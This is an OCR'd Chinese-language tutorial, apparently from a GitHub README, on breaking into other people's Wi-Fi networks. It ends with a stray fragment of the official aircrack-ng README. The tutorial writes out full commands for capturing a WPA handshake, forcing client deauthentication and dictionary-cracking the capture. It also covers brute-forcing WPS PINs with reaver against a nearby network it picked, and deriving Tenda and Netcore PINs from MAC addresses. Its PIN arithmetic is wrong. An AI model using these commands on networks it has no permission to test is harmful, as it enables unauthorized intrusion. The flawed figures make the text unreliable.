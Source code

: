 		输入：
			airodump-ng -w freedom -c CH --bssid 00:0F:32:A0:99:DC mon0 --ignore-negative-one
		解释：CH表示信道，信道是多少就填多少，freedom是一会抓握手包的文件名字，他会自动生成一个freedom.cap的文件，这个名字随便你们填什么
			00:0F:32:A0:99:DC  64:5A:04:BB:54:57   -4    0e- 0e     0      400  
			00:0F:32:A0:99:DC 这个是路由器的mac
			64:5A:04:BB:54:57 这个是客户端的mac
	第五步：
		重新开一个客户端输入命令：
		aireplay-ng --deaut 10 -a 00:0F:32:A0:99:DC -c 64:5A:04:BB:54:57 mon0 --ignore-negative-one
	第六步：
		破解握手包：
		命令如下：
		aircrack-ng -w dic.txt freedom-*.cap
		解释：mi字典名字      freedom-*.cap

##通过pin码破解
	这个方法很简单：
	第一步：Wash 扫描开启WPS的网络。
		wash -i mon1 –C
		小编的周围没有开启wps功能我wifi，就会出现上图那样，这样咋办呢
		不要急，因为有些隐藏了起来，我们直接霸王硬上弓
		用前面那个扫wifi的命令：
		airodump-ng mon0
		见小编圈起来的mac没有,选择一个PWR的值的绝对值小于70的wifi破解
	第二步：
		我在这选择的是名字为:FAST_F70E的wifi
		就他了：E4:D3:32:7F:F7:0E  -45        2        0    0   6  54e. WPA2 CCMP   PSK  FAST_F70E
		然后命令如下:
		reaver -i mon0 -b E4:D3:32:7F:F7:0E -a -S -vv
		E4:D3:32:7F:F7:0E 这个mac根据路由器的mac更改，我破解的wifi的mac是E4:D3:32:7F:F7:0E
		
		小知识：
		如果密码被改了你知道他wifi的pin码就用如下命令：reaver-i mon0 -b MAC -p PIN
		pin码有8位:所以就是10的8次方，要穷举1000000000次
		这样pin也是有限制的，比如要被pin出的路由器必须得开启wps功能；貌似现在很多都是防pin路由器或300秒pin限制的。
	
		有些路由pin码可以通过计算得到：腾达和磊科的产品如果路由MAC地址是以“C83A35”或“00B00C”打头那么可以直接计算出PIN值。
		比如这个：bssid ：Tenda_579A18    mac ：C8:3A:35:57:9A:18  通过计算器将mac后6位换算成10进制数，得到5741080（pin码的前7位）,最多试10次或通过软件得到该路由pin码！
	
	破解时推荐这个命令：
		reaver -i mon0 -b E4:D3:32:7F:F7:0E -a -S –d9 –t9 -vv
		因为–d9 –t9参数可以防止pin死路由器。

#官方DOCUMENT
Documentation, tutorials, ... can be found on http://www.aircrack-ng.org
See also manpages and the forum.

Installing
==========

This version now requires more libraries than 0.X versions to be compiled. 
See INSTALLING file for more information

OpenWrt Devices
===============
